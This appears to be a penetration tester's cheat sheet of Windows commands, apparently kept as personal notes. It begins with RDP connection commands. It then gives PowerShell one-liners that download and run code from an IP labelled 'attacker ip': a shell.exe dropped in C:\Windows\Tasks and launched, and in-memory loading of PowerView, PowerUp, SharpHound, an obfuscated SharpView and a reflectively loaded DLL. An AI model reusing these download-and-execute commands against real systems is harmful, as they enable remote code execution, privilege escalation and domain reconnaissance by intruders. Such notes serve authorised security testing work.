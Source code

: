 # Windows Handy Commands

### RDP From Linux
```bash
xfreerdp /u:"user" /d:"domain" /p:"password" /v:"target_ip"

xfreerdp /cert-ignore /compression /auto-reconnect /u:USERNAME /p:PASSWORD /v:IP_ADDRESS

xfreerdp +bitmap-cache /compression-level:2 /kbd:40A  /u:USERNAME /p:PASSWORD /v:IP_ADDRESS  /size:1500x1300

xfreerdp /cert-ignore /bpp:8 /compression -themes -wallpaper /auto-reconnect /drive:tmp,. /u:USERNAME  /p:PASSWORD /v:IP_ADDRESS

rdesktop -u USERNAME -p PASSWORD -a 16 -P -z -b -g 1280x860 IP_ADDRESS

```

---

### Sending Scripts

```PowerShell
# Several files
$baseUrl = "http://192.168.45.222:$PORT/" # attacker ip
$fileNames = @("file1.txt", "file2.txt", "file3.txt")
$downloadPath = "C:\Windows\Tasks"

foreach ($fileName in $fileNames) {
	$url = $baseUrl + $fileName
	$filePath = Join-Path $downloadPath $fileName
	Invoke-WebRequest -Uri $url -OutFile $filePath
}

# Download and save shell to tasks
Invoke-WebRequest -Uri 'http://192.168.45.222:$PORT' -OutFile 'C:\Windows\Tasks\shell.exe'; Start-Process -NoNewWindow -FilePath 'C:\Windows\Tasks\shell.exe'

# PowerView / SharpView
iex(new-object net.webclient).downloadstring('http://192.168.45.222:$PORT/PowerView.ps1'); DomainTrustMapping Get-DomainComputer -Domain <DOMAIN> | Resolve-IPAddress
iex(new-object net.webclient).downloadstring('http://192.168.45.222:$PORT/Invoke-SharpView.ps1')
# Obfuscated SharpView
iwr 'http://192.168.45.222:$PORT/ObfSharpView.exe' -OutFile 'C:\Windows\Tasks\obfsharpview.exe'

# Get all Domains
$domains = @("domain1", "domain2", "domain3")
foreach ($domain in $domains) { Get-DomainComputer -Domain $domain | Resolve-IPAddress }

# PowerUp / SharpUp
iex(new-object net.webclient).downloadstring('http://192.168.45.222:$PORT/PowerUp.ps1'); Invoke-AllChecks;
iex(new-object net.webclient).downloadstring('http://192.168.45.222:$PORT/Invoke-SharpUp.ps1')

# Turtle Toolkit
$a = [System.Reflection.Assembly]::Load($(IWR -Uri 'http://192.168.45.222:$PORT/TurtleToolKit.dll' -UseBasicParsing).Content); Import-Module -Assembly $a;

# Invoke BloodHound
iex(new-object net.webclient).downloadstring('http://192.168.45.222:$PORT/Invoke-Sharphound.ps1'); Invoke-Sharphound -CollectionMethod All,GPOLocalGroup -Domain <DomainName>;
Invoke-SharpHound -CollectionMethod All -Domain <DomainName2>; Invoke-SharpHound -CollectionMethod All -Domain <DomainName3>;
```
